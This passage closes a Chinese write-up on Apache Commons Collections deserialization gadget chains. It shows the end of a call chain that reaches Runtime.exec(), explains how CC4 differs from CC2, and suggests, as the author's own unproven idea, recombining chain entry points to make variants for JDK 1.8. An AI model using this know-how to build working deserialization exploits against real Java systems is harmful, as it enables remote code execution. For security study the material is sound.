                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```

CC4 只是将 CC2 中的 InvokerTransformer 替换为了 InstantiateTransformer。

# 结束语

这是自己随手画的图,而且巨丑,感兴趣的可以参考一下


因为自己跟CC链的时候发现链子之间都有一部分一样的,而且也是可以进行一些变换的,比如把CC3的入口换成其他链子的入口,即可实现JDK1.8版本的使用。所以感觉除了这7条链子,还应该有各种变种,来应对不同的情况.所以自己尝试画了这个图,只要能从上面走到最下面的路线,应该都是可以的(个人理解,没有任何依据,切勿直接当真,还需要证明)

